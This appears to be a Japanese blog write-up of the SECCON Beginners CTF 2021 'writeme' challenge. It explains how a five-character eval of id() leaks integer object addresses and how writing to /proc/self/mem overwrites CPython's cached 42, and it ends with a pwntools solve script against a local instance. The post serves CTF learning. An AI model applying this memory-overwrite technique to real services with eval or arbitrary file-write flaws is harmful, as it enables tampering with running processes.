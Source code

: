 +++
title = "Beginners CTF 2021 - writeme"
date = 2022-05-07

[taxonomies]
tags = ["CTF", "Writeup", "Misc", "python"]
+++

## TL;DR

## Prerequisite

(※解くのに必要な事項はそれなりにありますが、それなりに解説するので無視して良いです)

- Pythonの`id()`関数
- Pythonの数値のメモリ的な格納方法
- `/proc/<pid>/mem`を通じた値の読み書き

## Writeup

次のようなスクリプトが動いている。

```python
#!/usr/bin/env python3
import os

assert os.path.isfile("flag")

if __name__ == "__main__":
    open("writeme", "w").write("The Answer to the Ultimate Question of Life, the Universe, and Everything is 42.")
    print(eval(input("Chance: ")[:5])) # 42=99 :)
    path = input("File: ")
    if not os.path.exists(path):
        exit("File not found")
    if not os.path.isfile(path):
        exit("Not a file")
    if "flag" in path:
        exit("Path not allowed")
    try:
        fd = open(path, "r+")
        fd.seek(int(input("Seek: ")))
        fd.write("Hack")
        fd.flush()
        fd.seek(0)
    except:
        exit("Error")

    if 42 >= 99:
        print(open("flag").readline()) # Congrats!
    else:
        print(fd.readline())

```

だいたい次のような動作をする

1. 5文字までの文字列を引数として`eval()`
2. ファイル名指定して開く、但し実在するファイルかつファイル名に`flag`が含まれていない必要がある
3. 開いたファイルに対してインデックスを指定し、そこから`"Hack"`という4文字を書き込む
4. $42 \geq 99$という(常に偽になるはずの)不等式が成立するかを確かめ、成立するならフラグを開示し、そうでないなら開いたファイル中身を開示する

4のif文が明らかに偽になるため、普通にやっていればフラグは開示されない。また、フラグのファイルを指定することも叶わないため`else`側の処理でフラグを開示することも難しそうである。

そもそも使える武器が少ない。こちら側から入力出来るのは「5文字分の`eval`」と「ファイル名」と「インデックス」しか無い。普通に考えたら無理である。

ひとまずどうするかはさておき、`eval`を上手く使う方法を考える。5文字分しか実行出来ないことから、4文字以上の関数は括弧で2文字追加されるのでそもそも実行出来ず、3文字は無引数、2文字で1文字の引数を1つだけ指定出来る。

Pythonの組み込み関数を探していると2文字で`id()`という関数があり、これは引数に指定されたオブジェクトのIDを返すという関数である。実はこの関数、即値に対しても使用可能であり、更にその値を代入した変数と同じIDを指す。

```python
>>> x = 1
>>> id(1)
9788992
>>> id(x)
9788992
>>> 
```

また、ドキュメントには次のようなことも書かれていた。

> CPython implementation detail: This is the address of the object in memory.

ということでこの値はどこかのアドレスを指していることが期待出来る。次のような検証を行った。

```python
>>> l = [1,2,3]
>>> for x in l:
...     print(hex(id(x)))
... 
0x955e40
0x955e60
0x955e80
>>> import os
>>> os.getpid()
5773
>>> # gdb attaching...
>>> 
```

```text
pwndbg> x/64gx 0x955e40
0x955e40:       0x000000000000009c      0x000000000090b400
0x955e50:       0x0000000000000001      0x0000000000000001
0x955e60:       0x000000000000007d      0x000000000090b400
0x955e70:       0x0000000000000001      0x0000000000000002
0x955e80:       0x0000000000000031      0x000000000090b400
0x955e90:       0x0000000000000001      0x0000000000000003
0x955ea0:       0x000000000000003e      0x000000000090b400
0x955eb0:       0x0000000000000001      0x0000000000000004
0x955ec0:       0x0000000000000020      0x000000000090b400
0x955ed0:       0x0000000000000001      0x0000000000000005
0x955ee0:       0x0000000000000018      0x000000000090b400
0x955ef0:       0x0000000000000001      0x0000000000000006
0x955f00:       0x0000000000000010      0x000000000090b400
0x955f10:       0x0000000000000001      0x0000000000000007
0x955f20:       0x0000000000000024      0x000000000090b400
0x955f30:       0x0000000000000001      0x0000000000000008
0x955f40:       0x000000000000000c      0x000000000090b400
0x955f50:       0x0000000000000001      0x0000000000000009
0x955f60:       0x000000000000000b      0x000000000090b400
0x955f70:       0x0000000000000001      0x000000000000000a
0x955f80:       0x000000000000000d      0x000000000090b400
0x955f90:       0x0000000000000001      0x000000000000000b
0x955fa0:       0x0000000000000008      0x000000000090b400
0x955fb0:       0x0000000000000001      0x000000000000000c
0x955fc0:       0x0000000000000006      0x000000000090b400
0x955fd0:       0x0000000000000001      0x000000000000000d
0x955fe0:       0x0000000000000008      0x000000000090b400
0x955ff0:       0x0000000000000001      0x000000000000000e
0x956000:       0x0000000000000009      0x000000000090b400
0x956010:       0x0000000000000001      0x000000000000000f
0x956020:       0x0000000000000016      0x000000000090b400
0x956030:       0x0000000000000001      0x0000000000000010
pwndbg> 
```

Pythonインタプリタ上で1から3までの数値のIDを入手し、gdbでその場所を覗いた結果がこちらである。

`1`のIDが指すアドレスは`0x9c`となっており特に面白い変数では無いが、`0x955e58`に`0x1`が、同様にして`0x955e78`に`0x2`が存在し、そのあと数字が増えるごとにこの法則で値が続いている。

このことから、一次文献を当たっていないGuessにはなるが、Pythonの数値は(64bitまでなら?)32バイトで管理され、最後の8バイトに実際の値が格納されていると考えられる。ということはここを書き換えたら`1`を別の数値として扱うことが出来る予感がする。実際に`0x955e58`に42を入れてみた。

```text
pwndbg> set {int}0x955e58=42
pwndbg> x/16gx 0x955e40
0x955e40:       0x000000000000009c      0x000000000090b400
0x955e50:       0x0000000000000001      0x000000000000002a
0x955e60:       0x000000000000007d      0x000000000090b400
0x955e70:       0x0000000000000001      0x0000000000000002
0x955e80:       0x0000000000000031      0x000000000090b400
0x955e90:       0x0000000000000001      0x0000000000000003
0x955ea0:       0x000000000000003e      0x000000000090b400
0x955eb0:       0x0000000000000001      0x0000000000000004
pwndbg> 
```

Pythonインタプリタに戻って`l`を表示してみると次のように1だった部分が42になっている。

```python
>>> l
[42, 2, 3]
```

というわけで即値であってもそこを管理しているメモリを書き換えれば別の数値として扱うことが出来そうである。

問題はここをどう書き換えるかだが、Linuxでは`/proc/<pid>/mem`を通してメモリの読み書きが出来るらしい(但し、`cat`のような他プロセスからはアクセス出来ないらしい)。書き換えを行うのはこのスクリプトの`fd.write("Hack")`なのでPIDの指定は`self`で良い。というわけで書き込みを行うファイルには`/proc/self/mem`を指定する。

最後に、どこを書き換えるかだが、`42`か`99`の値を書き換えるのが自然である。ただ、書き換えも任意の値を指定することが出来ず、`"Hack"`に限られる。これは32bitぐらいの数値として扱うことが出来るので`42`の値を書き換えて大きい数となるようにすれば`42 >= 99`を真に出来そうである。

後はここのアドレス値を特定するだけであり、これは先程の検証より32バイトごとに数値が格納してある事を考えると、`id(9)`のように一桁の値を指定してその数値のアドレスを得て、整数値でどの程度離れているかを計算した分をオフセットとして足してあげれば良い。具体的には`id(n) + (42 - n) * 32 + 24`が、`42`の値が入っているアドレスになる。

## Code

```python
from pwn import remote


sc = remote("localhost", 27182)
sc.recvuntil(b"Chance: ")
sc.sendline(b"id(9)")
addr = int(sc.recvline())

print(f"[+] 9 at {addr:x}")
offset = 42 - 9
fourty_two_addr = addr + 32 * offset
fourty_two_value = fourty_two_addr + 24
print(f"[+] 42 at {fourty_two_addr:x}")
print(f"[+] write to {fourty_two_value:x}")

sc.recvuntil(b"File: ")
sc.sendline(b"/proc/self/mem")
sc.recvuntil(b"Seek: ")
sc.sendline(str(fourty_two_value).encode())

sc.interactive()
```

## Flag

ローカルで解いただけ

## Resources

- [問題ファイル](https://github.com/SECCON/Beginners_CTF_2021/tree/main/misc/writeme/files): Dockerfile付き
- [組み込み関数 — Python 3.10.4 ドキュメント](https://docs.python.org/ja/3/library/functions.html#id): `id()`について非常に短い説明が書いてある
- [Pythonの整数型はどのように実装されているのか](https://zenn.dev/yukinarit/articles/afb263bf68fff2#%E6%9C%80%E9%81%A9%E5%8C%96)
- [Man page of PROC](https://linuxjm.osdn.jp/html/LDP_man-pages/man5/proc.5.html)
- [kernel - How do I read from /proc/$pid/mem under Linux? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/6301/how-do-i-read-from-proc-pid-mem-under-linux)
